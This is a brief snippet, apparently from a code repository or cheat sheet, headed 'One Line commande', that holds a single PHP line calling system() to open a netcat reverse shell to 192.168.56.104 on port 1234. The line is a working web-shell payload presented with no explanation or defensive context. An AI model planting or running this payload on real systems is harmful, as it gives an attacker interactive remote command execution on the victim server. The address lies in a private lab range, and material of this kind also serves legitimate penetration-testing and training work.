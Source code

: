 
### One Line commande 

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.104 1234 >/tmp/f"); ?>
```